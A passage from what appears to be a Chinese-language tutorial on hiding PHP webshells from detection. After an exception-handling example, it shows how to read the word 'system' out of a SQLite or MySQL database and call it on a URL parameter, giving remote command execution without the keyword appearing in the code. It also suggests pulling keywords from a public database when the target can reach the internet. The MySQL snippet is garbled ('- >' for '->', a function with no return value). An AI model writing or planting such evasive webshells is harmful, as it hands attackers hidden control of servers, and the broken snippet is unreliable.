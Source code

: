 ```php
		echo "" . print_r($e->getTrace(), true) . "<br>";
		echo "报错内容输出完毕";
}
```

运行后输出结果：

```php
Message: 变量值必须小于等于 1
错误信息：变量值必须小于等于 1
错误码：0
错误文件：D:\phpstudy_pro\WWW\AabyssZG\error.php
错误行数：7
前一个异常：
异常追踪信息：Array ( [0] => Array ( [file] => D:\phpstudy_pro\WWW\AabyssZG\error.php [line] => 14 [function] => checkNum [args] => Array ( [0] => 2 ) ) )
报错内容输出完毕
...
```


## 6# 数据库连接函数

### 6.0 Tips

可以尝试通过读取数据库内的内容，来获取敏感关键词或者拿到执行命令的关键语句，就可以拼接到php中执行恶意的代码了。

### 6.1 Sqlite数据库

配合我上面写的 `file_put_contents()` 文件写入函数，先写入本地Sqlite文件然后读取敏感内容

```php
$path = "AabyssZG.db";
$db = new PDO("sqlite:" . $path);
//连接数据库后查询敏感关键词
$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();
//提权敏感关键词并进行拼接
$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['aabyss']);       //system($_GET['aabyss']);
```

### 6.2 MySQL数据库

这里使用 `MySQLi()` 这个函数，其实PHP有很多MySQL连接函数，可自行尝试

然后通过这个函数，连接公网数据库（只要目标能出网），即可连接并获得敏感字符拼接到php中

```php
function coon($sql) {
    $mysqli = new MySQLi("localhost", "test", "test123", "test");
    //默认的 MySQL的类，其属性与方法见手册
    if ($mysqli - > connect_error) {
        //connect_error为属性，报错
        die("数据库连接失败：".$mysqli - > connect_errno. "--".$mysqli - > connect_error);
        // connect_errno:错误编号
    }
    $mysqli - > select_db("test"); //选择数据库
    // 返回值 $res 为资源类型（获取到结果的资源类型）
    $res = $mysqli - > query($sql) or die($mysqli - > error);
    //释放结果集，关闭连接
    $mysqli - > close();
}
$sql = "select * from test where name LIKE 'system'";
$arr = coon($sql);
$res = array("data" => $arr);
echo json_encode($res);
```